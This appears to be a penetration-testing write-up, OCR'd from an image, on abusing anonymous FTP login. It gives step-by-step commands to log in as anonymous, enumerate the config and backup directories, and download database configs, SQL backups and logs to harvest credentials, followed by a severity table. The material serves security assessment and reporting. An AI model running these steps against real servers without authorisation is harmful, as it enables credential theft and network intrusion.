 ## Exploitation Steps

### Step 1: Initial Reconnaissance
```bash
# Connect to FTP server
ftp target.com 21

# Test anonymous login
user anonymous
# Password: (blank)
```

### Step 2: Directory Enumeration
```bash
# List directories
ls
cd public
ls
cd ..
cd config
ls
cd ..
cd backups
ls
```

### Step 3: File Download
```bash
# Download sensitive files
binary
get database.conf
get smtp.conf
get backup.sql
get server.log
```

### Step 4: Analysis
- Review downloaded files for credentials
- Identify sensitive information
- Map internal network structure
- Document findings for reporting

## Risk Assessment

### Severity Levels
- **Critical**: Database credentials, API keys, private keys
- **High**: Configuration files, backup data, logs
- **Medium**: Public files, documentation
- **Low**: Readme files, public assets
